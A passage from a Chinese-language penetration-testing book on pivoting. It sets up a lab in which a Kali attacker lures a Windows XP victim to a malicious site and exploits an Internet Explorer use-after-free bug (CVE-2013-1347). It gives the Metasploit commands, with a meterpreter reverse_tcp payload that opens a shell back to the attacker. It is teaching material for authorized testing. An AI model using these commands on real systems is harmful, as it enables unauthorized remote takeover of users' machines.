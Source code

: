 要设置我们的潜在枢纽点，我们首先需要利用一台机器。然后我们需要检查机器中是否有第二个连接到另一个网络的网络卡，而我们无法在不使用我们利用的机器的情况下到达该网络。在本书的示例中，我们将使用三台机器，Kali Linux 机器作为攻击者，Windows XP 机器作为第一个受害者，Windows Server 2003 机器作为第二个受害者。情景是我们让客户端访问我们的恶意网站，并使用一个名为*Use after free*的漏洞针对 Microsoft Internet Explorer。这种类型的漏洞一直困扰着该产品的多个版本。以下是来自 Exploit DB 网站的示例截图：

![Pivoting](img/477-1_12_15.jpg)

列表中列出的漏洞是针对 Internet Explorer 9 的漏洞。在本书的示例中，我们将针对针对 Internet Explorer 8 的漏洞进行攻击；攻击的概念是相同的。简单来说，Internet Explorer 开发人员继续犯一个错误，那就是在分配内存后没有清理内存。

输入`msfconsole`启动您的 metasploit 工具。一旦控制台出现，输入`search cve-2013-1347`来搜索漏洞。搜索结果的示例如下截图所示：

![Pivoting](img/477-1_12_16.jpg)

一个担忧是它被评为良好，但我们喜欢在选择我们的漏洞时找到卓越或更好的评级。对于我们的目的，我们将看看是否可以让它工作。当然，总是有可能我们找不到我们需要的东西，不得不选择要么编写我们自己的漏洞，要么记录它并继续测试。

在这本书中我们使用的示例中，Kali 机器的 IP 地址是 192.168.177.170，这也是我们设置的`LHOST`。对于您的目的，您将不得不使用您拥有的 Kali 地址。我们将在 metasploit 窗口中输入以下命令：

```
use exploit/windows/browser/ie_cgenericelement_uaf
set SRVHOST 192.168.177.170
set LHOST 192.168.177.170
set PAYLOAD windows/meterpreter/reverse_tcp
exploit

```

上述命令的结果示例如下截图所示：

![Pivoting](img/477-1_12_17.jpg)

